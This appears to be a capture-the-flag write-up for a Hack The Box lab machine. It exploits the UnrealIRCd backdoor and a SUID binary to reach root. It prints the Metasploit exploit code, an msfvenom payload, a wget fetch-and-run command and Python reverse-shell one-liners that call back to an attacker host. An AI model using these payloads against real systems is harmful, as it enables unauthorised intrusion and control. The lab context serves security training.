# [Irked](https://app.hackthebox.eu/machines/163)

Start of with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.117 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.117
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.117
```

The TCP quick scan returns the following:



Start the following web scanners in the background:

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# start scanners
nikto -h http://10.10.10.117/ --maxtime=30s
gobuster dir -t 100 -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\
  -u http://10.10.10.117/ &
```

Visit site manually at `http://10.10.10.117/`:


Nothing exciting here or in the HTML source. The note about IRC being almost up is insteresting though. The `nmap` scan also shows RPC open. Try to enumerate users:

```bash
rpcclient -N 10.10.10.117       # NULL session
rpcclient -U '' -N 10.10.10.117 # empty username and password
```



No luck here, moving on... Around now, the full `nmap` scan should be done and shows some more interesting ports:



There isn't any version information open here. A quick exploit search has some interesting results:



In order to continue, this exploit needs to be verified. Looking through `nmap` scripts shows one that can help:

- https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html

```bash
ls -la /usr/share/nmap/scripts/irc*
```



The script can detect a vulnerable version through a simple ping. Test it on the 3 ports running IRC:

```bash
nmap --script irc-unrealircd-backdoor -p 6697,8067,65534 -d1 10.10.10.117
```

By enabling `nmap` debug messages with `-d1`, the following script output is given:



So the UnrealIRCd running on port 8067 seems vulnerable! Looking at exploit 16922, it has the following Ruby:

```ruby
def exploit
        connect
        print_status("Connected to #{rhost}:#{rport}...")
        banner = sock.get_once(-1, 30)
        banner.to_s.split("\n").each do |line|
                print_line("    #{line}")
        end
        print_status("Sending backdoor command...")
        sock.put("AB;" + payload.encoded + "\n")
        handler
        disconnect
end
```

This simply sends the characters `AB;` followed by an encoded command. The commands do not return any output so a reverse shell command needs to be crafted:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# start listener
nc -nvlp 6969
# trigger exploit manually:
# 1) wait until after the following text:
# :irked.htb NOTICE AUTH :*** Looking up your hostname...
# :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
# 2) then paste the following:
# AB;wget http://10.10.14.23:8080/bubba.elf -P /tmp;chmod +x /bubba.elf;/tmp/bubba.elf &
nc 10.10.10.117 8067
```

However, this does not work as planned... To better test the exploit, start a `tcpdump` listening for pings and try to get the target to ping Kali:

```bash
# start tcpdump
sudo tcpdump -i tun0 icmp
# use payload: AB;ping -c 1 10.10.14.23
```





Interestingly, all 3 ports returned the `ping` and validated the vulnerability :man_shrugging: ? It is likely that the target does not have `wget` installed... Getting around this possible knowing that the target is Linux and Linux comes with Python installed out-of-the-box. Now use the following payload with a Python reverse shell:

```bash
# note: the & at the end to background the shell
AB;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",6969));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'& 
```

This payload interestingly provides a shell on the target, but does not give access to `user.txt`. Now to enumerate the target...



When looking for SUID binaries, the following binary sticks out:

```bash
find / -perm -u=s -type f -exec ls -lad {} \; 2>/dev/null
```



Transfer the binary through base64 encoding:

```bash
# run on target and copy output
cat /usr/bin/viewuser | base64
# run on kali with target's output in rop.64 file
cat viewuser.b64 | base64 -d > viewuser
chmod +x viewuser
```

Setup [Ghidra](https://ghidra-sre.org/) to reverse engineer the binary:

```bash
wget https://ghidra-sre.org/ghidra_9.1.2_PUBLIC_20200212.zip
unzip ghidra_9.1.2_PUBLIC_20200212.zip
sudo apt install openjdk-11-jdk
cd ghidra_9.1.2_PUBLIC/
./ghidraRun
```

After creating a new non-shared project and importing the binary, the `main()` function looks like the following in the disassembly window:



It looks like the binary just executes whatever is placed inside `/tmp/listusers`. Testing that theory:

```bash
# run on target
echo "ping -c 1 10.10.14.23" > /tmp/listusers
chmod a+x /tmp/listusers
cat /tmp/listusers
/usr/bin/viewuser
# run on kali
sudo tcpdump -i tun0 icmp
```



And this does generate an ICMP echo & reply the the Kali machine! Now replace `/tmp/listusers` with a python reverse shell payload:

```bash
# run on target
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&" > /tmp/listusers
chmod a+x /tmp/listusers
/usr/bin/viewuser
# on kali, setup listener
nc -nvlp 7777
```

And that gives both `user.txt` & `root.txt`:



